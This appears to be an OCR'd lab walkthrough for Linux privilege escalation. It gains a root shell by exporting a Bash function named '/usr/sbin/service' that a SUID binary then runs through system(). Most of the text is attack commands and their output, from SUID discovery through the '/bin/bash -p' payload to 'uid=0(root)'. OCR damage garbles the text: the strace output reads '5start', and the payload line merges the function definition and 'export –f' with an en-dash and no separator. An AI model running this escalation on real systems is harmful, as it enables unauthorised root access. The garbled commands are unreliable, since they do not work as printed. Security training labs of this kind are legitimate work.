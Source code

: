 In some shells (notably Bash <4.2-048) it is possible to define user functions with an absolute path name.

These functions can be exported so that subprocesses have access to them, and the functions can take precedence over the actual executable being called.

1. Find SUID/SGID files on the target:

```bash
find / -type f -a \( -perm -u+s -o -perm -g+s \) -exec ls -l {} \; 2> /dev/null
```

==-rwsr-sr-x 1 root staff 6899 May 14 2017 /usr/local/bin/suid-env2==

The suid-env file should execute with root user permissions.

2. Run strings on the SUID file:

```bash
strings /usr/local/bin/suid-env2
```

/usr/sbin/service apache2 start

The file could be trying to run the /usr/sbin/service program.

3. We can verify this with strace:

```bash
strace -v -f -e execve /usr/local/bin/suid-env2 2>&1 | grep service
```

[pid 16729] execve("/bin/sh", ["sh", "-c", "/usr/sbin/service apache2 5start"]...

4. Optionally, we can also verify with ltrace:

```bash
ltrace /usr/local/bin/suid-env2 2>&1 | grep service
```

system("/usr/sbin/service apache2 start"

This reveals that the system function is being used to execute the /usr/sbin/service program.

5. Verify the version of Bash is lower than 4.2-048:

```bash
bash --version
```

GNU bash, version 4.1.5(1)-release (x86_64-pc-linux-gnu)

6. Create a Bash function with the name “/usr/sbin/service” and export the function:

```bash
function /usr/sbin/service { /bin/bash -p; } export –f /usr/sbin/service
```

7. Execute the SUID file for a root shell:
```bash
/usr/local/bin/suid-env2
```

```bash
id
```

uid=0(root) gid=0(root) groups=0(root)